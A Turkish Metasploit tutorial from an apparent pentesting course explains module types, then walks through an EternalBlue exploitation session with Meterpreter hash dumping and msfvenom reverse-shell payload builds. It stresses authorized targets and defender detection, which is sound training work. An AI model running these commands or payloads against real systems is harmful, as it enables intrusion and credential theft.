


# 🛠️ Metasploit Framework Rehberi

Metasploit, dünyanın en yaygın sömürü (exploitation) çerçevesidir: binlerce exploit, payload ve yardımcı modülü tek bir yapıda toplar. Bir pentester için "İsviçre çakısı"dır. Bu dosya Metasploit'in mimarisini ve temel iş akışını kurar — ama unutma: **araç, altındaki kavramları ([somuru-ve-sonrasi.md](somuru-ve-sonrasi.md)) anlamanın yerine geçmez.**

> ⚠️ Yalnızca izinli hedeflerde → [metodoloji-ve-rules-of-engagement.md](metodoloji-ve-rules-of-engagement.md). Pratik: [pratik-lab/tryhackme-oda-notlari-sablonu.md](pratik-lab/tryhackme-oda-notlari-sablonu.md).

---

## 1. Metasploit mimarisi

Metasploit'i güçlü kılan, modüler yapısıdır. Temel modül türleri:



| Modül | İş |
|-------|-----|
| **Exploit** | Belirli bir zafiyeti kullanan kod (ör. `exploit/windows/smb/ms17_010_eternalblue`) |
| **Payload** | Sömürü başarılı olunca çalışan yük (ör. reverse shell, Meterpreter) |
| **Auxiliary** | Sömürü olmayan işler: tarama, brute-force, DoS |
| **Post** | Ele geçirilen sistemde çalışan modüller (kimlik topla, privesc) |
| **Encoder** | Payload'ı imza/AV atlatma için kodlar |

### Payload türleri: staged vs stageless
- **Staged** (`windows/meterpreter/reverse_tcp`): Önce küçük bir "stager" gönderilir, o asıl payload'ı indirir. Küçük ilk yük.
- **Stageless** (`windows/meterpreter_reverse_tcp`): Tüm payload tek seferde. Ağ kısıtlıysa daha güvenilir.

**Meterpreter:** Metasploit'in gelişmiş, bellekte çalışan (diske yazmadan) payload'ı — dosya indirme/yükleme, ekran görüntüsü, privesc, pivot, hash dökme gibi güçlü sömürü-sonrası yeteneklerle gelir.

---

## 2. Temel iş akışı



### Komut komut örnek oturum
```bash
# Metasploit'i başlat
msfconsole

# 1. Bir exploit ara (enumerasyondan bilinen zafiyet)
search eternalblue

# 2. Modülü seç
use exploit/windows/smb/ms17_010_eternalblue

# 3. Gerekli seçenekleri gör
show options

# 4. Hedef ve dinleyici ayarla
set RHOSTS 192.168.1.10          # hedef IP
set LHOST 192.168.1.5            # SENİN IP'in (reverse bağlantı için)
set PAYLOAD windows/x64/meterpreter/reverse_tcp

# 5. (opsiyonel) zafiyet var mı kontrol et
check

# 6. Çalıştır
exploit

# 7. Başarılıysa Meterpreter oturumu açılır
meterpreter > sysinfo
meterpreter > getuid
meterpreter > hashdump           # (yetkiye göre) parola hash'leri
```

**Başarılı `exploit` sonrası Meterpreter oturumu:**
```text
[*] Started reverse TCP handler on 10.10.14.2:4444
[*] 10.10.10.5:445 - Connecting to target for exploitation.
[+] 10.10.10.5:445 - Connection established for exploitation.
[+] 10.10.10.5:445 - Target OS selected valid for OS indicated by SMB reply
[*] Sending stage (200774 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.5:49158)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-SRV01
OS              : Windows Server 2016 (10.0 Build 14393).
Architecture    : x64
```
`NT AUTHORITY\SYSTEM` = Windows'un en yüksek yetkili hesabı ([../02-linux-windows/windows-temelleri.md](../02-linux-windows/windows-temelleri.md)). EternalBlue gibi çekirdek düzeyi bir exploit doğrudan SYSTEM verir; bu yüzden ayrıca privesc gerekmez — exploit zaten en yüksek yetkiyle çalıştı.

### Temel terim kısaltmaları
| Değişken | Anlam |
|----------|-------|
| **RHOSTS** | Uzak (remote) hedef IP(ler) |
| **RPORT** | Hedef port |
| **LHOST** | Yerel (local) — SENİN IP'in (reverse için) |
| **LPORT** | Yerel dinleme portu |
| **PAYLOAD** | Çalıştırılacak yük |

---

## 3. Yardımcı araçlar

- **msfvenom:** Bağımsız payload üretici. Metasploit'ten ayrı bir dosya/shellcode üretir (ör. bir web zafiyetiyle yüklemek için).
  ```bash
  # Linux reverse shell ELF üret
  msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f elf -o shell.elf

  # Windows exe
  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o shell.exe
  ```
- **multi/handler:** msfvenom ile üretilen payload'ın bağlantısını yakalayan dinleyici.
  ```bash
  use exploit/multi/handler
  set PAYLOAD windows/x64/meterpreter/reverse_tcp
  set LHOST 192.168.1.5 ; set LPORT 4444
  run
  ```

---

## 4. Nüans: Metasploit'in sınırları ve etik

- **"Otomatik hack butonu" değil:** Metasploit doğru modülü, doğru hedefe, doğru ayarlarla uygulamanı ister. Bunun için enumerasyonu ([kesif-enumerasyon.md](kesif-enumerasyon.md)) ve zafiyeti ([somuru-ve-sonrasi.md](somuru-ve-sonrasi.md)) anlamalısın.
- **OSCP kısıtlaması:** OSCP gibi sınavlar Metasploit kullanımını **sınırlar** (genelde tek makinede) — çünkü amaç, aracın değil, altındaki manuel becerinin ölçülmesi. Bu yüzden manuel sömürüyü de öğren.
- **Gürültülüdür:** Metasploit payload'ları ve davranışları AV/EDR imzalarında iyi bilinir → gerçek/kırmızı takım operasyonlarında sıklıkla tespit edilir. Bu bir dezavantaj değil, **savunmanın nasıl çalıştığını** öğrenme fırsatıdır.
- **İzin:** Tüm modüller yalnızca izinli hedefte. `check` ve `exploit` bile aktif müdahaledir → RoE.

---

## 5. Saldırı–savunma kesişimi (özet)

- **Metasploit = ortak dil ve baseline:** Hem saldırganların hem savunmacıların bildiği standart. Savunmacı, Metasploit payload'larının imzalarını/davranışlarını tanıyarak tespit kuralları yazar ([log-analizi.md](../11-soc-mavi-takim/log-analizi.md)).
- **Tespit edilebilirlik bir özelliktir:** Metasploit'in "gürültülü" olması, mavi takımın tespit yeteneğini test etmek için idealdir — mor takım tatbikatlarında yaygın kullanılır.
- **Araç değil, kavram öğren:** Metasploit yarın değişebilir; ama altındaki kavramlar (exploit→payload→shell→privesc→pivot) kalıcıdır. Bu yüzden manuel yolu ([somuru-ve-sonrasi.md](somuru-ve-sonrasi.md)) da bil.

> **Modül 10 devam:** [pratik-lab/tryhackme-oda-notlari-sablonu.md](pratik-lab/tryhackme-oda-notlari-sablonu.md).
